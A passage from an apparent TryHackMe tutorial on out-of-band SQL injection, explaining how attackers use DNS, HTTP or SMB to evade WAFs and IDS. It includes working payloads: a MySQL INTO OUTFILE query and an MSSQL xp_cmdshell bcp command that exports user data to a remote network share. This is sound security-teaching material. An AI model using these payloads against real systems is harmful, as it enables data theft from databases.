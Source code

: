 ![process flow of OOB injection](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1717060822273)  

One of the key advantages of Out-of-bandÂ SQLÂ injection is its stealth and reliability. By usingÂ **different communication channels**, attackers can minimise the risk of detection and maintain a persistent connection with the compromised system. For instance, an attacker might inject aÂ **SQLÂ payload that triggers the database server to make aÂ DNSÂ request**Â to a malicious domain controlled by the attacker. The response can then be used to extract sensitive data without alerting security mechanisms that monitor direct database interactions. This method allows attackers to exploit vulnerabilities even in complex network environments where direct connectivity between the attacker and the target is limited or scrutinised.Â 

Why Use OOB

In scenarios where direct responses are sanitised or limited by security measures, OOB channels enable attackers to exfiltrate data without immediate feedback from the server. For instance, security mechanisms likeÂ **stored procedures**,Â **output encoding**, and a**pplication-level constraints**Â canÂ **prevent direct responses**, making traditionalÂ SQLÂ injection attacks ineffective. Out-of-band techniques, such as usingÂ DNSÂ orÂ HTTPÂ requests, allow data to be sent to an external server controlled by the attacker, circumventing these restrictions.

Additionally,Â **Intrusion Detection Systems (IDS)**Â andÂ **Web Application Firewalls (WAFs)**Â oftenÂ **monitor and logÂ SQLÂ query responses for suspicious activity**, blocking direct responses from potentially malicious queries. By leveraging OOB channels, attackers can avoid detection by using less scrutinized network protocols likeÂ DNSÂ orÂ SMBÂ to transfer data. This is particularly useful in network environments with limited direct connectivity between the attacker and the database server, such as when the server is behind aÂ firewallÂ or in a different network segment.

Techniques in Different Databases

Out-of-bandÂ SQLÂ injection attacks utilise the methodology of writing to another communication channel through a crafted query. This technique is effective for exfiltrating data or performing malicious actions when direct interaction with the database is restricted. There are multiple commands within a database that may allow exfiltration, but below is a list of the most commonly used in various database systems:

**MySQL and MariaDB**

In MySQL or MariaDB, Out-of-bandÂ SQLÂ injection can be achieved usingÂ [SELECT ... INTO OUTFILE](https://dev.mysql.com/doc/refman/8.0/en/select-into.html)Â orÂ [load_file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file)Â command. This command allows an attacker to write the results of a query to a file on the server's filesystem. For example:

```php
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';
```

An attacker could then access this file via anÂ SMBÂ share orÂ HTTPÂ server running on the database server, thereby exfiltrating the data through an alternate channel.

**MicrosoftÂ SQLÂ Server (MSSQL)**

In MSSQL, Out-of-bandÂ SQLÂ injection can be performed using features likeÂ [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), which allows the execution of shell commands directly fromÂ SQLÂ queries. This can be leveraged to write data to a file accessible via a network share:

```php
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';
```
